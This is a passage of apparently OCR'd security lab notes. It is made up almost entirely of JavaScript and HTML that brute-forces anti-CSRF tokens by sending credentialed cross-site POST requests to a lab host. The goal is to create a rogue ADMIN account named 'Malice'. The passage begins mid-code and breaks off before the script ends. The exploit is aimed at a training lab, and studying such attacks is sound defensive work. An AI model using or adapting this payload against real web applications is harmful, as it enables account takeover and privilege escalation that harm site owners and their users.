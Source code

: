 ```js
   function Terminator() {
      self.postMessage("Sir, I've finished... see you later");
      self.close();
      return;
   }

   // Brute Loop
   bruteLoop(tokens);

}, false);


```

#### Simple Brute Force

```js
<html>
   <body>
      <h1>Anti-CSRF Tokens to test</h1>
      <textarea id="tokens" rows="12" cols="60">
         1679091c5a880faf6fb5e6087eb1b2dc
      </textarea>
      <script>
         function bruteLoop(TList) {
            for (var i = 0; i < TList.length; i++) {
               console.info("Testing: " + TList[i]);
               XHRPost(TList[i]);
            }
         }

         function XHRPost(tVal) {
            var http = new XMLHttpRequest();
            var url = "http://{LABID}.csrf.labs/add_user.php";
            var token = tVal;
            params = {
               "name": "Malice",
               "surname": "Smith",
               "email": "malice@hacker.site",
               "role": "ADMIN",
               "submit": "",
               "CSRFToken": token,
            };
            http.open("POST", url, true);
            http.withCredentials = 'true';

            // Send the proper header information along with the request
            http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

            http.onreadystatechange = function () {
               if (http.readyState > 1) {
                  // We don't care about responses
                  // console.warn("Aborted " + token + " with status " + http.readyState);
                  http.abort();
               }
            };

            // Serialize the data without using JQuery
            queryParams = Object.keys(params).reduce(function (a, k) {
               a.push(k + '=' + encodeURIComponent(params[k]));
               return a
            }, []).join('&');
            http.send(queryParams);
         }
```